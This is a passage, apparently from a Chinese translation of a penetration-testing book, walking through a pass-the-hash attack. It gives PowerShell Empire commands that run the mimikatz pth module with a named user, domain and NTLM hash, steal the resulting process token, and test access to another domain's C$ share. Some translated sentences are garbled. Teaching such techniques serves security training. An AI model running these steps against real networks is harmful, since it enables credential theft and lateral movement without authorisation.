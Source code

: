  现在我们有了sysback的密码散列，可以使用它在服务器上生成一个新进程。当这个进程向远程资源进行身份验证时，它将“传递”sysback的散列，从而有效地模拟sysback的标识，当然前提是域之间的密码确实相同。

 值得注意的是，成功生成具有指定哈希值的进程并不意味着密码是正确的。这是一个简单的内存注入技巧。真正的测试——真正的身份验证——将在我们访问远程资源时发生。
```
(Empire: DCshop) > usemodule credentials/mimikatz/pth
(Empire: dcsync) > set user sysback
(Empire: dcsync) > set domain GBSALES.CORP
(Empire: dcsync) > set ntlm 26bc129c0ea27a6e66cfaf3080fb7947
(Empire: dcsync) > run
```
![](chap5/chap5-3.jpg)

如果我们在交互式图形会话中，我们会看到一个带有sysback帐户的实际新窗口弹出。但由于我们使用的是Empire的反向连接，所以窗口保持在背景中。

这个新的CMD.exe进程中包含了Sysback的定义——一个记忆中的token，它等于Web session cookie，我们可以在最差的网站上找到。这是一种结构参照每个过程后面的用户特权和身份。

为了获得sysback的安全令牌，我们只需从刚刚生成的新进程中“窃用”它：
```
(Empire: dcsync) > interact DCshop
(Empire: DCshop) > steal 3888
(Empire: DCshop) > 
Running As: GBSALES\rachel_adm
Use Credentials/tokens with RevToSelf option to revert token privileges
```

我们现在作为sysback在Empire代理上的帐户有效地连接起来。为了测试sysback在GBSales中的帐户是否确实与GBShop中的帐户共享相同的密码，我们只需在GBSales DC上测试一个远程操作（如列出受保护的C$共享），然后查看是否有效：
![](chap5/chap5-4.jpg)
